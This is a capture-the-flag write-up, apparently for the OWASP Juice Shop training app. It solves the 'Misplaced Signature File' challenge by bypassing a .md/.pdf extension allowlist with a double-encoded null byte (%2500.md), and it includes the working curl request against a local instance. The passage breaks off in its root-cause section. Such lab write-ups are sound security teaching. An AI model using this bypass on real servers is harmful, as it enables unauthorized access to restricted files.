



# Misplaced Signature File

## Challenge Information

* **Category:** Observability Failures
* **Difficulty:** 4 ⭐
* **Challenge:** Misplaced Signature File
* **Objective:** Access a misplaced SIEM signature file by bypassing the application's file-type restriction.

---

## Reconnaissance / Discovery

The challenge hints indicate that the SIEM signature file is located in the application's public FTP directory and that the file-type validation can be bypassed using the same technique from the previous file-access challenges.

We searched the local Juice Shop source code for references to the challenge and SIEM signature file:

```bash
grep -Rni -C 8 "signature\|SIEM" /var/lib/juice-shop/build /var/lib/juice-shop/config 2>/dev/null | head -120
```

### Key Finding

The Cypress test revealed the exact target and expected attack:

```text
/ftp/suspicious_errors.yml%2500.md
```

The server-side test confirmed that the request should resolve to:

```text
suspicious_errors.yml
```

The file server also revealed that only `.md` and `.pdf` files are normally allowed:

```text
Only .md and .pdf files are allowed!
```

This created the validation bypass opportunity.

---

## Attack Surface

The SIEM signature file was located at:

```text
/ftp/suspicious_errors.yml
```

However, directly requesting the `.yml` file would violate the file-type restriction.

The application accepts `.md` and `.pdf` extensions, so the previously discovered Poison Null Byte technique was reused:

```text
/ftp/suspicious_errors.yml%2500.md
```

The `%2500` sequence is a double-encoded null byte. After decoding, it becomes `%00`, allowing the request to pass the extension validation while the server resolves the underlying `.yml` file.

---

## Validation

The crafted request was sent with:

```bash
curl -i "http://127.0.0.1:42000/ftp/suspicious_errors.yml%2500.md"
```

The server returned:

```text
HTTP/1.1 200 OK
Content-Type: text/yaml; charset=UTF-8
```

The response contained the SIEM signature file:

```yaml
title: Suspicious error messages specific to the application
description: Detects error messages that only occur from tampering with or attacking the application
author: Bjoern Kimminich
logsource:
    category: application
    product: nodejs
    service: errorhandler
```

This confirmed that the `.yml` file had been successfully retrieved despite the `.md` file-type restriction.



---

## Exploitation

The exploitation relied on the application's inconsistent handling of encoded null bytes.

The application first checked whether the requested filename ended with an allowed extension:

```text
.md
.pdf
```

The attacker supplied:

```text
suspicious_errors.yml%2500.md
```

The `.md` suffix satisfied the allowlist check, while the decoded null byte caused the file-serving logic to resolve the request to:

```text
suspicious_errors.yml
```

The complete request was:

```text
http://127.0.0.1:42000/ftp/suspicious_errors.yml%2500.md
```

The server returned the actual YAML file with HTTP status `200 OK`.

---

## Evidence

The challenge was confirmed as solved through the Juice Shop Score Board.



The challenge metadata was also captured for documentation:



---

## Security Impact

A file-type validation bypass can allow attackers to access files that the application intended to restrict.

In this case, an attacker was able to retrieve a SIEM signature file containing application-specific detection rules and information about suspicious error conditions.

Depending on what other files are stored in the same accessible location, the same vulnerability could potentially expose additional sensitive files.

---

## Root Cause

The vulnerability results from inconsistent parsing and validation of encoded input.

The application relied on a filename extension allowlis
